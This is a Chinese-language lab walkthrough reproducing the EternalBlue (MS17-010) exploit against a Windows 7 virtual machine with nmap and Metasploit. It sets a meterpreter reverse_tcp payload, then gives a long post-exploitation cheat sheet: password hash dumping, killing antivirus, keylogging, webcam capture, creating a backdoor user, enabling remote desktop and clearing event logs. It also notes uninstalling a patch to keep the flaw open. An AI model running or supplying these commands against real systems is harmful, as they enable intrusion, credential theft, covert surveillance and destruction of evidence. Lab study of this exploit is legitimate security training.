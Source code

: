 > 注意：安装win7靶机安装VWware tools时提示驱动无法自动安装，是因为微软更新了驱动程序签名算法，2019年开始弃用SHA1，改用SHA2，所以要打kb4474419补丁，但是打上补丁后永恒之蓝漏洞会被修复，所以安装完tools后需要把补丁卸载

## 1、永恒之蓝（Eternal Blue）

永恒之蓝是指2017年4月14日晚，黑客团体Shadow Brokers（影子经纪人）公布一大批网络攻击工具，其中包含“永恒之蓝”工具，“永恒之蓝”利用Windows系统的SMB漏洞可以获取系统最高权限。5月12日，不法分子通过改造“永恒之蓝”制作了wannacry勒索病毒，英国、俄罗斯、整个欧洲以及中国国内多个高校校内网、大型企业内网和政府机构专网中招，被勒索支付高额赎金才能解密恢复文件。


## 2、复现环境

| 角色   | 操作系统             | IP地址          |
| ------ | -------------------- | --------------- |
| 攻击机 | kali                 | 192.168.126.131 |
| 靶机   | Windows 7 家庭普通版 | 192.168.126.147 |

## 3、漏洞复现

- 主机发现

  - 利用kali的nmap进行扫描

    ```
    nmap 192.168.126.147
    ```

    扫描到开放了445端口，而永恒之蓝利用的就是445端口的smb服务，操作系统溢出漏洞。

    ![image-20221015154432156](https://s2.loli.net/2023/03/05/ncrisAKXRIvEUy7.png)

- 使用msf框架

  - 在kali终端输入

    ```
    # 进入msf模板库
    msfconsole
    
    # 寻找MS17-010相关模板库
    search ms17-010
    ```

    ![image-20221015160523734](https://s2.loli.net/2023/03/05/8CxM6qm7ndgNksz.png)

  - 进入msf模块

    - 使用`auxiliary/scanner/smb/smb_ms17_010` 模块扫描靶机是否存在该漏洞

      ```
      # 选择使用exploit/windows/smb/ms17_010_psexec模块
      msf6 > use auxiliary/scanner/smb/smb_ms17_010
      ```

      ![image-20221015162407031](https://s2.loli.net/2023/03/05/7kTsKagRvQ4VbS5.png)

    - 查看模块需要配置的参数

      ```
      show options
      ```

      ![image-20221015162450072](https://s2.loli.net/2023/03/05/9pyVvRNh4uSLgUP.png)

      图中`Required`值为`yes`的对应`Current Setting`都需要填写

    - 设置参数后扫描

      RHOSTS 参数是要探测主机的ip或ip范围
      设置攻击目标ip：

      ```
      # 设置目标主机IP
      set rhosts  192.168.126.147
      
      # 扫描
      run
      ```

      ![image-20221015171058438](https://s2.loli.net/2023/03/05/wjzm2vg6k8LZtU3.png)

      提示主机容易被攻击

    - 使用`exploit/windows/smb/ms17_010_eternalblue`攻击模块

      ```
      # 使用攻击模块
      use exploit/windows/smb/ms17_010_eternalblue
      
      # 查看漏洞信息
      info
      
      # 查看可以攻击的系统
      show targets
      
      # 查看该漏洞下可以使用的payload
      show payloads
      
      # 查看需要设置的参数
      show options
      
      # 设置payload（默认：payload/windows/x64/meterpreter/reverse_tcp）
      set payload windows/x64/meterpreter/reverse_tcp
      
      # 设置目标IP
      set rhosts 192.168.126.147
      
      # 执行攻击
      run
      ```

      ![image-20221015173103655](https://s2.loli.net/2023/03/05/5sv18iXAaDMfqTP.png)

      在这里可以执行文件上传下载，获取截屏，获取密码，使用摄像头，后门持久化等操作

## 4、后渗透阶段

```
在meterpreter > 中我们可以使用以下的命令来实现对目标的操作：
sysinfo             #查看目标主机系统信息
run scraper         #查看目标主机详细信息
hashdump        	#导出密码的哈希
load kiwi           #加载
ps                  #查看目标主机进程信息
pwd                 #查看目标当前目录(windows)
getlwd              #查看目标当前目录(Linux)
search -f *.jsp -d e:\               #搜索E盘中所有以.jsp为后缀的文件
download  e:\test.txt  /root         #将目标机的e:\test.txt文件下载到/root目录下
upload    /root/test.txt d:\test     #将/root/test.txt上传到目标机的 d:\test\ 目录下getpid              	#查看当前Meterpreter Shell的进程
PIDmigrate 1384     #将当前Meterpreter Shell的进程迁移到PID为1384的进程上
idletime            #查看主机运行时间
getuid              #查看获取的当前权限
getsystem           #提权
run  killav         #关闭杀毒软件
screenshot          #截图
webcam_list         #查看目标主机的摄像头
webcam_snap         #拍照
webcam_stream       #开视频
execute  参数  -f 可执行文件    #执行可执行程序
run getgui -u hack -p 123    #创建hack用户，密码为123
run getgui -e                #开启远程桌面
keyscan_start                #开启键盘记录功能
keyscan_dump                 #显示捕捉到的键盘记录信息
keyscan_stop                 #停止键盘记录功能
uictl  disable  keyboard     #禁止目标使用键盘
uictl  enable   keyboard     #允许目标使用键盘
uictl  disable  mouse        #禁止目标使用鼠标
uictl  enable   mouse        #允许目标使用鼠标
load                         #使用扩展库
run				             #使用扩展库
clearev                      #清除日志
```

